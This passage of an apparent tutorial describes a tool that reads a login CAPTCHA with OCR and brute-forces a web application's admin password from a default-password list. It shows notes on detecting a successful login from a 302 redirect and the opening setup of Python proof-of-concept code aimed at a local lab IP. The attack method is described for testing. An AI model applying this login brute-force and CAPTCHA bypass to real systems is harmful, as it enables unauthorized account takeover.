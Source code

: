 ![Pasted image 20220801152146](https://user-images.githubusercontent.com/72421091/182228073-4b2eeeea-eda0-4a2a-8fa3-a91b7f2b450e.png)

If we login with right credentials we can see a 302 redirection.

![Pasted image 20220801152423](https://user-images.githubusercontent.com/72421091/182228114-57a4bf84-c92a-45f3-b009-85ebc165536b.png)

I did a simple test for the right login detection. If we find no error message, it's a successful login. It's just for the POC. Better have a test case with the 302 redirection status code.

Notes after debugging : 
- My post request refuses to stop following redirects with the option "allow_redirects=False". 
- The problem is with the used url, i need to use `/index.php?mainmenu=home` instead of `/admin/index.php?mainmenu=home` to have the 302 redirection.

# POC 

Now i'll combine the OCR reading with the login post request to bruteforce login.
- I'll use beautifulsoup library to extract token and error messages.
- Simple loop for testing passwords from a file. I used [:-1] to remove "\n" from passwords to simplify.
- Use the headers and data values from the captured login post request.
- Get the used cookies
- Simple code structure for testing. I'll make a clean version in my github repository for the tool (at the end of the article).
- Change the variable `pytesseract.pytesseract.tesseract_cmd` for tesseract binary location and OS.

```python
# Linux
pytesseract.pytesseract.tesseract_cmd = "/usr/bin/tesseract"

# Windows
pytesseract.pytesseract.tesseract_cmd = 'C:/Program Files/Tesseract-OCR/tesseract.exe'
```

## POC code

```python
import requests
from bs4 import BeautifulSoup
import lxml
import urllib
from io import BytesIO
from urllib.parse import quote_plus as qp
import pytesseract
from PIL import Image
from requests.structures import CaseInsensitiveDict
import sys

#Linux
pytesseract.pytesseract.tesseract_cmd = "/usr/bin/tesseract"

#Windows
#pytesseract.pytesseract.tesseract_cmd = 'C:/Program Files/Tesseract-OCR/tesseract.exe'


username = "admin"
passwords = open("default-passwords.txt", "r")

base_url = "http://192.168.1.110/"

login_url = base_url + "index.php?mainmenu=home"

headers = CaseInsensitiveDict()

```